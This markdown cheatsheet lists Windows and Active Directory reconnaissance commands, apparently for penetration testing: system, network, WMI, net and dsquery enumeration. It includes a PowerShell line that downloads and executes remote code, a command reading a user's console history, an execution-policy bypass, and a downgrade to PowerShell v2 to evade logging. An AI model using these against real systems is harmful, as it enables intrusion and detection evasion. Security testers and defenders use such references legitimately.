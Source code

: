 ## Table of Contents

- [Host & Network Reconnaissance Cheatsheet](#host\&\network\reconnaissance\cheatsheet)
  - [Basic Enumeration Commands](#Basic\Enumeration\Commands)
      - [Systeminfo](#Systeminfo)
  - [Harnessing PowerShell](#Harnessing\PowerShell)
    - [PowerShell Commands](#PowerShell\Commands)
    - [Operational Security with PowerShell](#Operational\Security\with\PowerShell)
    - [Checking Defenses](#Checking\Defenses)
      - [Firewall Checks](#Firewall\Checks)
      - [Windows Defender Check](#Windows\Defender\Check)
    - [Networking Information](#Networking\Information)
    - [Windows Management Instrumentation (WMI)](#Windows\Management\Instrumentation\(WMI))
    - [Net Commands](#Net\Commands)
    - [Domain User Information](#Domain\User\Information)
    - [Dsquery DLL](#Dsquery\DLL)

# Host & Network Reconnaissance Cheatsheet

## Basic Enumeration Commands

Basic commands for initial host and network information gathering:

- `hostname` - Prints the PC's Name.
- `[System.Environment]::OSVersion.Version` - OS version and revision level.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` - Patches and hotfixes applied to the host.
- `ipconfig /all` - Network adapter state and configurations.
- `set` - Environment variables for the current CMD-prompt session.
- `echo %USERDOMAIN%` - Domain name to which the host belongs.
- `echo %logonserver%` - Domain controller the host checks in with.

#### Systeminfo
- Use `systeminfo` for a comprehensive overview of the system's information.

## Harnessing PowerShell

PowerShell is a powerful scripting language for Windows system and AD environment administration.

### PowerShell Commands

- `Get-Module` - Lists available modules loaded for use.
- `Get-ExecutionPolicy -List` - Execution policy settings for each scope on a host.
- `Set-ExecutionPolicy Bypass -Scope Process` - Temporarily changes policy for the current process.
- `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` - User's PowerShell history.
- `Get-ChildItem Env: | ft Key,Value` - Returns environment values like key paths, users, and computer information.
- `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <follow-on commands>"` - Example of downloading and executing a file.

### Operational Security with PowerShell

- Downgrading to PowerShell v2.0 can help avoid logging in PowerShell 3.0 and newer versions.
  - `powershell.exe -version 2` - Downgrade PowerShell to version 2.0.

### Checking Defenses

#### Firewall Checks
- `netsh advfirewall show allprofiles` - Displays all firewall profiles.

#### Windows Defender Check
- `sc query windefend` - Checks if Defender is running.
- `Get-MpComputerStatus` - Status and configuration settings of Windows Defender.

### Networking Information

|**Networking Commands**|**Description**|
|---|---|
|`arp -a`|Lists hosts in the arp table.|
|`ipconfig /all`|Adapter settings; network segment identification.|
|`route print`|Displays routing table.|
|`netsh advfirewall show state`|Shows firewall state.|

### Windows Management Instrumentation (WMI)

|**Command**|**Description**|
|---|---|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Patch level and hotfix descriptions.|
|`wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List`|Basic host information.|
|`wmic process list /format:list`|All processes on host.|
|`wmic ntdomain list /format:list`|Domain and Domain Controllers info.|
|`wmic useraccount list /format:list`|Local and domain account info.|
|`wmic group list /format:list`|Local group information.|
|`wmic sysaccount list /format:list`|System account information.|

### Net Commands

- `net accounts` - Information about password requirements.
- `net accounts /domain` - Domain's password and lockout policy.
- `net group /domain` - Lists domain groups.
- `net group "Domain Admins" /domain` - Users with domain admin privileges.
- `net group "domain computers" /domain` - PCs connected to the domain.
- `net group "Domain Controllers" /domain` - Domain controller PC accounts.
- `net localgroup administrators /domain` - Users in the domain's administrators group.
- `net user <ACCOUNT_NAME> /domain` - Information about a domain user.
- `net view` - List of computers in the network.
- `net view /domain` - PCs of the domain.

### Domain User Information
- `net user /domain <username>` - Details about a specific domain user.

### Dsquery DLL
- `dsquery user` - Searches for users.
- `dsquery computer` - Searches for computers.
- `dsquery * "CN=Users,DC=DOMAIN,DC=LOCAL"` - Wildcard search in an OU.
- `dsquery * -filter "<LDAP filter>" -attr <attributes>` - Custom LDAP searches.
